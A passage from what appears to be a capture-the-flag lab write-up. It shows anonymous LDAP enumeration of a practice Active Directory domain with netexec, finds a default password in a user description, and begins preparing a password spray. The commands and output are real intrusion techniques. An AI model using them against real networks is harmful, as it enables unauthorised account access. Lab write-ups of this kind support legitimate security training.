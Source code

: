 It looks like we didn't get any errors back when querying the ldap service.  Lets see if we can get some users now by using `--users`.

```bash
netexec ldap 10.10.111.218 -u '' -p '' --users
LDAP        10.10.111.218   389    BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
LDAP        10.10.111.218   389    BABYDC           [+] baby.vl\: 
LDAP        10.10.111.218   389    BABYDC           [*] Enumerated 10 domain users: baby.vl
LDAP        10.10.111.218   389    BABYDC           -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        10.10.111.218   389    BABYDC           Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        10.10.111.218   389    BABYDC           Jacqueline.Barnett            2021-11-21 15:11:03 0                                                                    
LDAP        10.10.111.218   389    BABYDC           Ashley.Webb                   2021-11-21 15:11:03 0                                                                    
LDAP        10.10.111.218   389    BABYDC           Hugh.George                   2021-11-21 15:11:03 0                                                                    
LDAP        10.10.111.218   389    BABYDC           Leonard.Dyer                  2021-11-21 15:11:03 0                                                                    
LDAP        10.10.111.218   389    BABYDC           Connor.Wilkinson              2021-11-21 15:11:08 0                                                                    
LDAP        10.10.111.218   389    BABYDC           Joseph.Hughes                 2021-11-21 15:11:08 0                                                                    
LDAP        10.10.111.218   389    BABYDC           Kerry.Wilson                  2021-11-21 15:11:08 0                                                                    
LDAP        10.10.111.218   389    BABYDC           Teresa.Bell                   2021-11-21 15:14:37 0        Set initial password to BabyStart123!                       
LDAP        10.10.111.218   389    BABYDC           Caroline.Robinson             <never>             0  
```

Nice, we now have a list of user accounts.  What is also interesting is we can see a comment on the user account `Teresa.Bell` `Set initial password to BabyStart123!`.

So we have a list of usernames and a password which was set at one point for the user `Teresa.Bell`.  Lets try it:

```bash
netexec ldap 10.10.111.218 -u 'Teresa.Bell' -p 'BabyStart123!'          
LDAP        10.10.111.218     389    BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
LDAP        10.10.111.218     389    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! 
```

Hmmmm no luck.  Perhaps this was a password which is set for all new accounts, as administrators can be lazy and one of those other users have not changed the default password.  

## Password spraying

Lets see if we can get just the usernames from the above output with the following command:

```bash
netexec ldap 10.10.111.218 -u '' -p '' --users | awk '{print $5}'
[*]
[+]
[*]
-Username-
Guest
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
```